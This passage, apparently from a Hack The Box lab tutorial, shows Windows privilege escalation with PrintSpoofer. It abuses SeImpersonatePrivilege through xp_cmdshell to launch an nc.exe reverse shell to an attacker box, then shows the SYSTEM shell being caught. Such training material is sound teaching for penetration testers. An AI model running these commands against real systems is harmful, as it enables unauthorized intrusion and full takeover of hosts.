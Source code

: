 ## PrintSpoofer and RoguePotato
  
  JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### Escalating Privileges using PrintSpoofer

  Let's try this out using the `PrintSpoofer` tool. We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with `mssqlclient.py` and use the tool with the `-c` argument to execute a command. Here, using `nc.exe` to spawn a reverse shell (with a Netcat listener waiting on our attack box on port 8443).

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

### Catching Reverse Shell as SYSTEM

  If all goes according to plan, we will have a SYSTEM shell on our `netcat` listener.

```shell-session
slomkm@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

Escalating privileges by leveraging `SeImpersonate` is very common. It is essential to be familiar with the various methods available to us depending on the target host OS version and level.

